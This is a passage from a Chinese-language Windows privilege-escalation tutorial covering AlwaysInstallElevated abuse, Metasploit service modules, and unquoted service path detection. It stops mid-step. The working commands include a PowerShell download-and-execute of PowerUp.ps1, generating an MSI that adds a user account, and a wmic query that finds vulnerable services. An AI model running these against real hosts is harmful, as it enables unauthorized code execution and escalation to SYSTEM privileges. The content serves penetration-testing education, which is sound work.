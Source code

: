 #### [](#metasploit-%E4%B8%8B%E7%9A%84%E5%88%A9%E7%94%A8)metasploit 下的利用

对应模块 `service_permissions`。

### [](#%E6%B3%A8%E5%86%8C%E8%A1%A8%E9%94%AE-alwaysinstallelevated)注册表键 AlwaysInstallElevated

`AlwaysInstallElevated` 是一个策略设置。微软允许非授权用户以 `SYSTEM` 权限运行安装文件 (MSI)，如果用户启用此策略设置，那么黑客利用恶意的 `MSI` 文件就可以进行管理员权限的提升。假设我们拿到目标主机的 `Meterpreter` 会话后并没能通过一些常规方式取得 `SYSTEM` 权限，那么 `AlwaysInstallElevated` 提权可以给我们带来另一条思路。

-   手动检测注册表：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated<br>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated<br>``` |

如果值均为 `1`，说明存在风险

-   PowerUp 脚本

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>powershell.exe -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowershellEmpire/PowerTools/master/PowerUp/PowerUp.ps1');Get-RegistryAlwaysInstallElevated"<br>``` |

添加账户

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```powershell<br>Write-UserAddMSI<br>``` |

以普通用户运行

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>msiexec /q /i UserAdd.smi<br>``` |

也可以利用 `msf` 中的 `always_install_elevated` 模块

### [](#%E5%8F%AF%E4%BF%A1%E4%BB%BB%E6%9C%8D%E5%8A%A1%E8%B7%AF%E5%BE%84%E6%BC%8F%E6%B4%9E)可信任服务路径漏洞

#### [](#metasploit-%E4%B8%8B%E7%9A%84%E5%88%A9%E7%94%A8-1)metasploit 下的利用

-   检测目标机器是否存在漏洞

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>wmic service get name,displayname,pathname,startmode\|findstr /i "Auto" \| findstr /i /v "C:\Windows\\"\|findstr /i /v """<br>``` |

-   把要上传的程序重命名并放置在此漏洞且可写的目录下，执行如下命令：
